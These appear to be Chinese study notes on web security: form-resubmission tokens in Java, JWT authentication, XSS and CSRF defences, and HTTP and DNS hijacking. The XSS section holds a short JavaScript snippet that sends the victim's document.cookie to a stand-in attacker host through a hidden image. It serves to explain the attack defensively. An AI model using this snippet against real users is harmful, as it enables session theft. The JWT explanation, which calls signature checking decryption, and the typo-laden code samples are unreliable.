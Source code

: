 ## token技术的功能及实现
1. 功能
    - 防止表单重复提交
    - 用来作身份验证
2. 防止表单重复提交的实现
    - 用户第一次请求表单页面，服务器生成token，并放在session中存放，将token发送给客户端
    ```
    //生成token
    UUID token = UUID.randomUUID();
    //放入session中
    request.getSeeion().setAttribute("token",token.toString())
    //放入request传到前台
    request.setAttribute("token",token)
    ```
    - 当用户第一次提交表单，将token一起发送给服务器，与后台的session中的token对比，对比成功，删除session中的token，防止表单重复提交
    ```
    //获取session中的token
    Object token1 = request.getSession().getAttribute("token");
    //获取客户端的token
    String token = request.getParameter("token");
    if(token1 == null){
        System.out.print("提交出错");
    }else if(!token1.equals(token)){
        System.out.print("提交出错");
    }else{
        System.out.print("提交成功");
        //删除session，防止重复提交
        request.getSession().removeAttribute("token");
    }
    ```
3. 基于token的身份验证
    - 客户端使用用户名跟密码请求登陆
    - 服务器端收到请求，去验证用户名和密码成功后，服务器端会签发一个token，再把这个token发送给客户端
    - 客户端收到token存储（cookie或者localStorage），然后每次请求带着token，服务端进行验证
4. token（JWT java web token）相对于cookie和session验证机制的区别：
    - cookie和session机制需要将信息保存在服务端，例如在数据库中，作为数据持久化，每次请求的验证，都需要从数据库获取对比验证  
    - token是基于签名，也可以叫加密，由header.payload.signature组成，token有服务器端生成，payload存放
    json数据，signature是加密，每次服务器的验证，只需要对signature解密，看看解密结果是否与payload相同，就不需要在数据库额外存储数据了，
    换句话说，服务器自己签名的东西，只有自己认识，只是认识的方式不一样了，或者说验证方式不一样了
## XSS和CSRF防御
- XSS跨站脚本（cross-site scripting）和CSRF跨站请求伪造（cross-site request forgery）都属于跨站攻击，XSS是实现CSRF诸多途径中的一条，但不是唯一一条；XSS的本质是让对方浏览器执行
你插入的js，来获取cookie等信息；而CSRF是借用户的身份，向服务器发送请求
XSS分为存储型和反射型：
    - 存储型XSS，持久化，代码是存储在服务器中的，如在个人信息或发表文章等地方加入代码，如果没有过滤或者
    过滤不严，那么这些代码将存储到服务器中，用户访问该页面的时候触发代码执行。这种XSS比较危险，容易造成
    蠕虫，盗窃cookie等
    - 反射型XSS，非持久化，需要欺骗用户自己去点击连接才能触发XSS代码执行。这种XSS代码出现在url中，作为输入
    提交到服务器，服务器端解析后响应，XSS代码随响应内容一起传回给浏览器，最后浏览器解析执行XSS
- XSS防范
    - 客户端校验用户输入信息，只允许输入合法的值，其他一概过滤掉，防止客户端输入恶意的js代码被植入到HTML代码
    中，使得js得以执行
        - 移除用户上传的DOM属性，如onerror等
        - 移除用户上传的style节点，script节点，iframe节点等
    - 对用户输入的代码标签进行转换（html encode）
    - 对url中的参数过滤
    - 对动态输出到页面的内容进行html编码
    - 服务端对敏感的cookie设置httpOnly属性，使js脚本不能读取到cookie
    - CSP即是Content security policy
    ```
    var img = document.createElement('img')
    img.src = 'http://www.xss.com?cookie=' + document.cookie
    img.style.display = 'none'
    document.getElementByTagName('body')[0].appendChild(img)
    //这样就神不知鬼不觉的把当前用户的cookie发送给了我的恶意网站，我的恶意站点通过获取get参数就拿到了用户的cookie
    ```
    目前很多浏览器都会自身对用户的输入进行判断，检测是否存在字符攻击，比如script标签，这段代码很明显是一段xss攻击，
    因此浏览器会对这段输入进行处理，不同的浏览器处理方式也不一样。可以在浏览器中将它拦截关闭
- 跨站请求伪造的过程与防范
过程：用户小明在你的网站A上面登录了，A返回了一个SessionID（使用cookie存储），小明的浏览器保持着A站的登录状态，攻击
者小强给小明发送了一个链接地址，小明打开地址的时候，这个页面已经自动的对网站a发送一个请求，通过使用小明的cookie信息，
这样攻击者小强就可以随意更改小明在A上的信息
    - 使用token：服务器随机产生token为密钥生产一段密文，把token和密文都随cookie交给前端，前段发起请求时把密文和
    token交给后端，后端对token和密文进行验证，看token能不能生成同样的密文，这样即使黑客拿到了token也无法拿到密文
    ```
    http://www.weibo.cn?follow_uid=123&token=73ksdkfu102
    ```
    - 使用验证码：每一个重要的post提交页面，使用一个验证码，因为第三放网站无法获取验证码
    - 检测http的头信息refer。refered记录了请求的来源地址，服务器要做的验证是这个来源地址是否合法
    - 涉及敏感操作的请求改为post请求

## http劫持与dns劫持
1. 区别
    - dns劫持：你输入的网址是google.com,出来的是百度的页面；通过某些手段取得域名的解析记录控制权，进而修改
    此域名的解析结果，导致对该域名的访问由原ip地址转入到修改后的指定ip，其结果是特定网址无法访问，访问的是
    假网址
    - http劫持：你打开知乎的页面，右下角弹出的唐老师的不孕不育广告；在使用者与其目的网络服务所建立的专用数
    据通道中，监视特定数据信息，提示当满足特定条件时，就会在正常的数据流中插入精心设计的网络数据报文，目的
    是让用户端程序解释“错误”的数据，并以弹出新窗口的形式在使用者界面展示广告等类容
2. 解决办法
    - 使用https：SSL到TLS协议
    - 加密算法